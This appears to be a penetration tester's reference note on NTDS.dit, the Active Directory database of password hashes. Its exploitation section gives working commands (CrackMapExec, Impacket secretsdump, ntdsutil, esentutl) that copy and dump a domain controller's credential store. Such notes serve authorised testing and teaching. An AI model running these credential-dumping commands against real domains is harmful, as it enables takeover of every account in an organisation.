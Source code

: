 # NTDS

The NTDS.dit file (NTDS) is a database which stores confidential Active Directory information such as usernames, objects, groups, and password hashes. Once the NTDS.dit file has been retrieved, an attacker can effectively impersonate any member of the domain. This file is stored on domain controllers, meaning that full domain compromise has to occur in order to retrieve it.

### Exploitation

CrackMapExec and Impacket are  the easiest ways to remotely dump the NTDS.dit after Domain Administrator credentials have been obtained:

```bash
# CrackMapExec
crackmapexec smb -u $user -p $password -ntds 

# Impacket
impacket-secretsdump -just-dc-ntlm oasis/administrator@$dcip
```

Alternatively, [an attacker can dump the NTDS.dit manually](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration) if they have a shell on a Domain Controller:&#x20;

```bash
# Dump the NTDS
# It should be noted that this works on older machines when Secretsdump and vssadmin fail
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

# Dump the password hashes offline 
impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local

# LOLBIN 
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\Windows\Tasks\ntds.dit
```

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration" %}
